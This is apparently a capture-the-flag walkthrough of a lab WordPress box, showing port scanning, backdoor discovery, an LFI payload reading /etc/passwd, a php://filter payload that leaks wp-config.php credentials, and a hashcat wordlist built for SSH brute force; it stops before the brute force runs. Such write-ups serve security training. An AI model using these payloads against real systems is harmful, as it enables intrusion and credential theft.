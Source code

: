 # Red1
**IP: 10.0.4.7**
<br>
First of all I did an `nmap` scan and found that there are two open ports:<br>
> 80 _apache_ <br>
> 22 _ssh_

The site looks pretty simple. But I found some things in `robots.txt`<br>

```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php

Sitemap: http://redrocks.win/wp-sitemap.xml
```

I went to the sitemap and found that there is user named:
administrator

Checked it in the admin-login page and looks like it works.
<br>
Going to the site we know that there is a backdoor. The hacker said so.
<br>
Let's look for backdoors. We have a good wordlists with backdoor names in seclists.<br>
`gobuster dir -u http://10.0.4.7/ -w CommonBackdoors-PHP.fuzz.txt`<br>
Looks like we found one:<br>
```
/NetworkFileManagerPHP.php (Status: 500) [Size: 0]
```
There is nothing if we go there. Therefore, we can try to put there different requests like:<br>
`/NetworkFileManagerPHP.php?search=qwe`<br>
We can use `wfuzz` to do it.<br>
```
wfuzz -c -u "http://redrocks.win/NetworkFileManagerPHP.php?FUZZ=test" -w /usr/share/wfuzz/wordlist/general/big.txt --hh 00
```
We will find that the word `key` works.<br>
Try `http://redrocks.win/NetworkFileManagerPHP.php?key=/etc/passwd` and you will get a good result.

We know that this is a wordpress site. Also, we know that in wordpress sites have wp-config.php file where is a lot of interesting information. If we try to access it we won't see it since our browser automaticly translates php code. However, we can find a php base64 filter on PlayloadsAllTheThings. https://github.com/swisskyrepo/PayloadsAllTheThings 
Here is an example:<br>
```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
```
Modify it for ourselves:<br>
```
http://redrocks.win/NetworkFileManagerPHP.php?key=php://filter/convert.base64-encode/resource=wp-config.php
```
And it will give us a base64 string which we can decode and get the original wp-config.php code.<br>
Here is an interesting piece of code:<br>
```
...
/** MySQL database username */
define( 'DB_USER', 'john' );

/** MySQL database password */
define( 'DB_PASSWORD', 'R3v_m4lwh3r3_k1nG!!' );
...
```
We know that there is the open ssh port. If we try to use these credentials to ssh it does not work.<br>
Also, we know that there is the backdoor file. Let's download it and look what it looks like.<br>
`http://redrocks.win/NetworkFileManagerPHP.php?key=php://filter/convert.base64-encode/resource=NetworkFileManagerPHP.php`<br>
Got a piece of code with another base64 line which says:<br>
`That password alone won't help you! Hashcat says rules are rules`<br>
And this is kind of hint.<br>
We know that `hashcat` is a tool for password bruteforcing. We can see the work "rules" in the text which brings an assumption that we need to use a rule. _That is where we need get acquainted with password cracking rules._ Also, we can make an assumption that the rules is best64, since our hint was encoded in base64.<br>
We are going to take the password that we found in `wp-config.php`, put it in fule `pwd.txt` and generate a custom wordlist with `hashcat` and rule called `best64`.<br>
Our command will look like this:<br>
```
hashcat pwd.txt -r /usr/share/hashcat/rules/best64.rule --stdout > custom_wordlist.txt
```
Now, we have got our custom wordlist. Let's try to bruteforce into `ssh`.



